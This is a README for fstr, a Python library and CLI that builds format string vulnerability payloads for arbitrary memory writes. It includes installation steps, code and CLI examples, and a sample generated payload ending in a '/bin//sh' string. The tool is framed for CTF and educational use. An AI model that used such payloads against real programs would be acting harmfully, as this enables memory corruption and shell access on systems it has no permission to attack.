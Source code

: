 # fstr: Automatic format string payloads
fstr is a powerful tool which instantly generates payloads for arbitrary writes using format string vulnerabilities. Unlike other automated payload generators, fstr writes all addresses to the end of the payload instead of the beginning to make sure that the vulnerable printf acutally reaches all the format specifiers.
![demo](images/demo.png)

# Installation
Create a virtual environment if you haven't already:
```
python3 -m venv .venv
. .venv/bin/activate
```
Then install:
```
git clone https://github.com/TheKrizzler/fstr.git
pip3 install ./fstr
```
# Usage
This tool is primarily meant as a python library, but it also has a CLI.
## Python
To start off, create either a `FormatString64` or `FormatString32` object with the following arguments: writes, offset, prepend, append.  
  
Simply use the `.craft()` method to create the payload. This method will return the payload as a bytestring, so it can be saved and used later.
```python
from fstr import FormatString64

addr = 0x7fffffffdc00
data = 0x4011ae

fmtstr = FormatString64(writes={addr:data},offset=6,prepend='%4$x',append='/bin/sh\0')
payload = fmtstr.craft()
```
`write`: Takes a dictionary containing all desired writes.  
`offset`: An integer representing the offset at which your own input can be found using a format string vulnerablity. **The payload will not work if the offset is incorrect**  
`prepend`: A string to prepend to the payload. Please do not prepend the payload with anything manually unless you know what you're doing, use this argument instead.  
`append`: A string to append to the payload. Does the exact same thing as appending text manually.  
## CLI
Run the following command to see the help menu.
```
$ fstr -h
usage: fstr [-h] -w WRITE --arch {32,64} [-o OFFSET] [-p PREPEND] [-a APPEND] [--raw]

options:
  -h, --help            show this help message and exit
  -w WRITE, --write WRITE
                        REQUIRED - Specify a single address:data pair in hex, i.e 0x404000:0x1337. Can
                        be used multiple times.
  --arch {32,64}        REQUIRED - Specify either 32-bit or 64-bit architecture
  -o OFFSET, --offset OFFSET
                        Specify the offset at which your input is found using a format string vulnerability
  -p PREPEND, --prepend PREPEND
                        Specify a string to prepend to the payload
  -a APPEND, --append APPEND
                        Specify a string to append to the payload
  --raw                 Outputs the only final payload as raw bytes.
```
Example use:
```
$ fstr --arch 64 -w 0x404000:0x1337 -o 6 -p '%4$lx' -a '/bin//sh'
  __       _         
 / _|     | |        
| |_  ___ | |_  _ __ 
|  _|/ __|| __|| '__|
| |  \__ \| |_ | |   
|_|  |___/ \__||_|   
by @TheKrizzler
[*] b'%4$lx%10$hn%11$n%4919x%12$hn....\x02@@\x00\x00\x00\x00\x00\x04@@\x00\x00\x00\x00\x00\x00@@\x00\x00\x00\x00\x00/bin//sh'
[*] Length: 64
```
# Disclaimer
fstr is a tool designed exclusively for use in Capture The Flag (CTF) competitions and educational purposes. It is not intended for any illegal or malicious activities. The creators and distributors of fstr do not condone or support the use of this tool for unauthorized access or any activities that violate applicable laws and regulations. Users are responsible for ensuring that their use of fstr complies with all relevant legal requirements.
